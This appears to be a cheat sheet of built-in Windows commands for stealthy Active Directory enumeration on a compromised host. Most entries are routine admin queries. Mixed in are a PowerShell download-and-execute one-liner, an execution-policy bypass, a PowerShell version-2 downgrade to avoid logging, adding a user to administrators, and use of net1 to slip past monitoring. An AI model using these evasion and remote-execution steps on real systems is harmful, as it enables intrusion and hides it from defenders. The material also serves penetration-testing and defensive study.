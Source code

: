 ## Key Concepts:

- **Stealth:** Using built-in tools reduces the risk of detection.
- **Limited Resources:** Assumes a managed host with no internet access or ability to upload tools.
- **Log Evasion:** Techniques like downgrading PowerShell are explored.

---

## 1. Basic Enumeration Commands (CMD)

```cmd
hostname                          # Prints the PC's name
[System.Environment]::OSVersion.Version  # Prints the OS version
wmic qfe get Caption,Description,HotFixID,InstalledOn  # Prints installed patches
ipconfig /all                     # Displays network adapter configurations
set                                # Lists environment variables
echo %USERDOMAIN%                  # Displays the domain name
echo %logonserver%                 # Prints the domain controller name
systeminfo                         # Provides a summary of host information
```

---

## 2. PowerShell Enumeration

```powershell
Get-Module                          # Lists loaded modules
Get-ExecutionPolicy -List           # Prints execution policy settings
Set-ExecutionPolicy Bypass -Scope Process  # Bypasses execution policy for the current process
Get-ChildItem Env: | ft Key,Value    # Returns environment variables
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt  # Retrieves PowerShell history
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL'); <commands>"  # Downloads and executes a file from a URL
powershell.exe -version 2           # Downgrades PowerShell to version 2
Get-MpComputerStatus                # Retrieves Windows Defender status
qwinsta                              # Lists active sessions
```

---

## 3. Network Enumeration

```cmd
arp -a                               # Lists ARP table entries
route print                          # Displays the routing table
netsh advfirewall show allprofiles   # Displays firewall settings
```

---

## 4. Windows Management Instrumentation (WMI)

```cmd
wmic qfe get Caption,Description,HotFixID,InstalledOn  # Prints patch information
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List  # Displays host information
wmic process list /format:list  # Lists running processes
wmic ntdomain list /format:list  # Displays domain information
wmic useraccount list /format:list  # Lists user accounts
wmic group list /format:list  # Lists local groups
wmic sysaccount list /format:list  # Dumps service account information
```

---

## 5. Net Commands

```cmd
net accounts                      # Displays password requirements
net accounts /domain              # Displays domain password policy
net group /domain                 # Lists domain groups
net group "Domain Admins" /domain  # Lists domain admin users
net group "domain computers" /domain  # Lists domain computers
net group "Domain Controllers" /domain  # Lists domain controllers
net group <domain_group_name> /domain  # Lists users in a group
net groups /domain                # Lists domain groups
net localgroup                     # Lists local groups
net localgroup administrators /domain  # Lists domain administrators
net localgroup Administrators      # Displays group information
net localgroup administrators [username] /add  # Adds a user to the administrators group
net share                          # Lists shared resources
net user <ACCOUNT_NAME> /domain    # Displays user information
net user /domain                   # Lists domain users
net user %username%                # Displays current user information
net use x: \\computer\share         # Mounts a share
net view                           # Lists network computers
net view /all /domain[:domainname]  # Lists domain shares
net view \\computer /ALL            # Lists computer shares
net view /domain                   # Lists domain PCs
net1                                # A less monitored version of net
```

---

## 6. Dsquery Enumeration

```cmd
dsquery user         # Lists domain users
dsquery computer     # Lists domain computers
```

---

## Key Takeaways

- Windows provides numerous built-in tools for AD enumeration.
- PowerShell is a powerful tool for both host and network reconnaissance.
- WMI and net commands offer extensive domain information.
- Dsquery is extremely useful for querying Active Directory.
- Downgrading PowerShell can hinder logging.
- `net1` can be used to bypass some monitoring systems.



